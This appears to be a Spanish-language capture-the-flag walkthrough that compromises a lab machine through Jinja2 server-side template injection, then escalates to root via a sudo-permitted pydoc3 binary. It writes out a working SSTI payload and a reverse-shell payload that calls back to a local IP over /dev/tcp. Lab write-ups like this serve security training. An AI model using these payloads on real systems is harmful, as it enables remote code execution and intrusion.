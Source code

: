 Escaneo de puertos:

![](../../../Images/Pasted%20image%2020240815142802.png)

Veamos lo que hay en el puerto 8089:

![](../../../Images/Pasted%20image%2020240815143027.png)

Coloquemos el parámetro hola por ejemplo:

![](../../../Images/Pasted%20image%2020240815143050.png)

La página misma nos devuelve lo mismo que coloquemos

Por ende explotaremos una STTI (Server Side Template Injection). Accederemos a la siguiente pagina y nos copiaremos este comando:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection

![](../../../Images/Pasted%20image%2020240814211729.png)

Lo pegamos con el comando whoami:
```
Hola{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

![](../../../Images/Pasted%20image%2020240815143358.png)

Y damos en el botón:

![](../../../Images/Pasted%20image%2020240815143414.png)

Y nos arroja que detrás de la página está el usuario caldo

Entonces ahora meteremos un comando de reverse shell y nos pondremos a la escucha con Netcat:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.232/443 0>&1"').read() }}
```

![](../../../Images/Pasted%20image%2020240815145233.png)

![](../../../Images/Pasted%20image%2020240815145243.png)

Y listo, estamos dentro de la máquina víctima

Tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020240815145315.png)

![](../../../Images/Pasted%20image%2020240815145337.png)

Flag de user:

![](../../../Images/Pasted%20image%2020240815145418.png)

## ESCALADA DE PRIVILEGIOS

Ejecutamos sudo -l para ver el binario que podremos usar 

![](../../../Images/Pasted%20image%2020240815145442.png)

Podemos ser root con el binario Pydoc3

Este es un binario que funciona de la mano con Python, por ende nos crearemos un archivo .py para que al momento de ejecutarlo con este binario seamos root automaticamente:

![](../../../Images/Pasted%20image%2020240815145819.png)

![](../../../Images/Pasted%20image%2020240815145829.png)

Lo ejecutamos:

![](../../../Images/Pasted%20image%2020240815145848.png)

Y listo, ya somos ROOT

Flag de root:

![](../../../Images/Pasted%20image%2020240815145914.png)

